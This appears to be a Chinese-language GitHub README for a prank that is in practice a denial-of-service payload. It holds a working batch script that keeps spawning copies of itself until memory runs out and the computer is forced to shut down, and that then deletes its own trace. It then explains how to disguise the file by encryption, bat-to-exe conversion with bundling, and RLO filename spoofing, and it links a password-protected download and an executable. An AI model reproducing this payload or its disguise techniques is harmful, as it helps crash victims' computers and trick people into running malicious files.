 
# 打包下载地址 https://yj233.lanzous.com/ic2hu3e 密码:need

一个令电脑内存堆积 导致强制关机的bat
## 我们需要一个ouch.bat
/////手动编辑/////
```bash
(echo :ouch && echo start ouch.bat && echo goto ouch && echo color 2 && echo echo ################## I am YJ, thank u for open this bat,Yours computer will be shutdown ##################) > %temp%/ouch.bat
cd %temp% && ouch.bat
del %0`
```
记事本添加以上代码后，保存修改后缀为bat。'如果你想测试的话可以打开hhh
### CmdEncryption 加密bat文件
不用介绍了 感谢AM电脑吧:年老痴呆
ps:这里我没使用这个 因为没必要 演示一下而已！
#### 之后导入Bat_To_Exe_Converter将bat转换成exe
ps:language可以切换为中文

![battoexe](https://s1.ax1x.com/2020/04/28/JIHGGV.png)
此软件有捆绑功能与填写软件功能 我这里不需要我就不弄了 这是我的配置 自行DIY

##### RLO字符运用
![RLO](https://s1.ax1x.com/2020/04/28/JIbNfP.gif)
看GIF把 不解释了都 
ps:想看后缀请到文件夹设置里设置显示后缀！
附上链接
[点我](https://jingyan.baidu.com/article/ab69b2707a7deb2ca6189f6f.html "点我看看教程")
~~*这个教程真的好小白算是 一个demo了吧*~~
THANK YOU!!!
### END

### 1.exe為自用文件 切勿隨意獲取
## https://raw.fastgit.org/yj94/ouch/master/1.exe

